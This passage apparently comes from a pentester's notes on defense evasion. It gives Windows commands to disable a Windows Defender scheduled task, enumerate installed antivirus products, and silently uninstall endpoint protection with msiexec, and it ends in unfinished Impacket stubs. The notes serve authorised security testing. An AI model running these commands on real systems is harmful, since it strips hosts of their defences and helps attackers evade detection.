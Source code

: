 `C:\> schtasks /change /tn "Microsoft\Windows\Windows Defender\Windows Defender Verification" /disable`

## 1.5 - Msiexec

### 1.5.1 - Uninstall Endpoint

- **Command Prompt**

```
C:\> wmic product get name,identifyingnumber

C:\> wmic /node:localhost /namespace:\\root\securitycenter2 path antivirusproduct

C:\> wmic /node:localhost /namespace:\\root\securitycenter2 path antivirusproduct get * /format:list

C:\> wmic /node:localhost /namespace:\\root\securitycenter2 path antivirusproduct get displayname

C:\> msiexec /q /qn /norestart /uninstall {<GUID>}
```

- **Powershell**

```
PS C:\> Get-WMIObject -ClassName Win32_Product | Select-Object -Property IdentifyingNumber, Name

PS C:\> Get-CimInstance -ClassName Win32_Product | Select-Object -Property IdentifyingNumber, Name

PS C:\> msiexec /q /qn /norestart /uninstall {<GUID>}
```

## 1.6 - Impacket

TODO: Translate the registry commands to impacket from above -> [[Pentesting Phases/Post Exploitation/Shell Is The Beginning/Defense Evasion/Security Solutions/Windows/01 - Manual#^9b4be2|Registry]] 

### 1.6.1 - Disable Windows Defender

#### 1.6.1.1 - Disable Real Time Protection

`$ reg.py`

#### 1.6.1.2 - Disable Windows Defender Services

`$ reg.py`

#### 1.6.1.3 - Disable Logging

`$ reg.py`

#### 1.6.1.4 - Disable Systray Icon

`$ reg.py`
